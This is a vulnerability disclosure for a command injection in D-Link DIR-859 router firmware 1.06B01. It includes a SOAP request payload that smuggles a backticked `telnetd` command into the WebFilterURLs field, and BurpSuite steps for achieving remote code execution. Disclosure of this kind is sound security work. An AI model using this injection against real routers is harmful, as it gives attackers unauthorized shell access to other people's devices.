 # DIR-859 SetWebFilterSettings CMD Injection
Vulnerability for D-Link Router

Product: D-Link DIR-859  (Refer: http://www.dlink.com.cn/home/product?id=2960)

Version: The latest firmware -- 1.06B01 (Download link: https://support.dlink.com/productinfo.aspx?m=DIR-859)

![image](3.png)

Vulnerability Type: Command Injection

Author: David Chen

Institution: Technology Research Institute of Legendsec at Qi'anxin Group

Vulnerability description
-------------------------
An issue was discovered on D-Link DIR-859 devices with firmware through 1.06B01. A command Injection vulnerability allows attackers to execute arbitrary OS commands via shell metacharacters in a crafted /HNAP1 request. This occurs when the SetWebFilterSettings function calls the system function with an untrusted input parameter named WebFilterURLs. Consequently, an attacker can execute any command remotely when they control this input. The details are as below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetWebFilterSettings>
 <WebFilterMethod>DENY</WebFilterMethod>
 <NumberOfEntry>2</NumberOfEntry>
 <WebFilterURLs>
  <string>www.baidu.com</string>
 <string>www.shohu.com`telnetd`</string></WebFilterURLs>
</SetWebFilterSettings>
</soap:Body>
</soap:Envelope>
```

The "WebFilterURLs" parameter is a string formed as bleow:

```xml
<string>www.baidu.com</string>
<string>www.sohu.com`telnetd`</string>
```
So if someone can POST data like this, they will execute command "telnetd" at the router.

POC
-------------------------

Step1: Attacker need to call "SetWebFilterSettings" fuction that setting "WebFilterURLs" value, so to add URLs at the web page as below:

![image](5.jpg)


Step2: To modify the "WebFilterURLs" value, Attacker need to intercpet the POST action at BurpSuite after they type "Save" button, and insert command "telnetd" to the parameter as below:

![image](1.png)

Step3: After sending POST packet as above, this action can result in a RCE that executes a "telnetd" command at router as below:

![image](4.png)

After that, the command has already been added to the URLs:

![image](2.png)

P.S. Given the vendor's security, we only provide parts of this exploit.